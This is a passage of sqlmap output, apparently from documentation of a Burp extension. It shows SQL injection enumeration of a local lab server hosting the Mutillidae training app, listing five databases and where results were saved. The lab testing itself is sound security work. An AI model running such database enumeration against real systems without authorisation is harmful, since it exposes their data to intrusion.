[14:31:52] [INFO] retrieved: 'performance_schema'
[14:31:52] [INFO] retrieved: 'mutillidae'
available databases [5]:
[*] information_schema
[*] mutillidae
[*] mysql
[*] performance_schema
[*] sys

[14:31:52] [INFO] fetched data logged to text files under 'D:\SecSci_RnD\BurpExtender\SecSci-SQLMap\Results\127.0.0.1_sqlmap_20250524143054279000\127.0.0.1'

[*] ending @ 14:31:52 /2025-05-24/
```